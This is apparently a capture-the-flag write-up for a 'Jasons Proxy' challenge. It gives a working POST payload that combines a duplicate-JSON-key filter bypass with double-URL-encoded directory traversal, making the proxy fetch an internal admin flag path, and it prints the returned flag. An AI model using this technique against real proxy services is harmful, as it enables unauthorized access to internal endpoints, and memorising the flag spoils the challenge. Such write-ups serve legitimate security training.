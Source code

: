 # Jasons Proxy Write Up

1. Create a new POST request to `/jason_loader` with the following POST body
```
{"img":"aHR0","img":"aHR0cDovLzEyNy4wLjAuMS9zdGF0aWMvaW1hZ2VzLyUyZSUyNTJlLyUyZSUyNTJlLyUyNTYxZG1pbi9mbCUyNTYxZw=="}
```

The above payload first exploits the vulnerability inside of the JSON parsing function where it fails to double check "checked" keys, bypassing the character filter. The payload must start with the string `http://127.0.0.1/static/images/` so the rest of the payload is a directory traversal double URL encoded to bypass checks at the proxy level. Finally the proxy requests the path `http://127.0.0.1/admin/flag`, the proxy then encodes the flag data in base64 and sends it back to the player.

2. Observe the flag data returned in base64 encoded form

```
{"imagedata": "RFVDVEZ7ZDB1YmwzX2pzMG5fZDB1YmwzX1VSSV9yMXBfajRzMG41X3A0dGhfdzF0aF9iMWdfaDR4eH0="}
```
